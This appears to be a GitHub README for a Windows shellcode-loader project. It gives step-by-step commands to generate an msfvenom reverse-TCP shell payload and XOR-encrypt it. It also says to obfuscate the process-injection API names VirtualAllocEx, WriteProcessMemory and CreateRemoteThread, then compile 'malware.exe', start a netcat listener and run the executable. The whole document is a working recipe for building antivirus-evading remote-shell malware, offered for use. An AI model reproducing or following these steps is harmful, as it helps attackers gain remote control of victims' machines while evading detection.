 ### Prerequesite
1. Visual Studio
2. Python
3. Metasploit Framework

### Initiate
##### Generate Shellcode
Run this command to generate the shellcode via Msfvenom.
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4455 -f raw -o shellcode.bin
```

##### Encrypt The Generated Payload 
Run this command to encrypt the generated shellcode.
```sh
python xorencrypt.py shellcode.bin
```

##### All Functions Must Be Encrypted
Make sure every functions like a `CreateRemoteThread`, `WriteProcessMemory`, and `VirtualAllocEx` are encrypted. Use the Python to do.
```sh
ptyhon
printCiphertext(xor("VirtualAllocEx", "password"))
printCiphertext(xor("WriteProcessMemory", "password"))
printCiphertext(xor("CreateRemoteThread", "password"))
```
>Note: Once those done, put them in the `*.cpp` file, take a look the specific line.

### Execute
1. Run `compiler.bat` to compile all of them, then you will have `malware.exe`
2. Run the listener (such as [Netcat](https://github.com/diegocr/netcat/) tool)
3. Run `malware.exe`
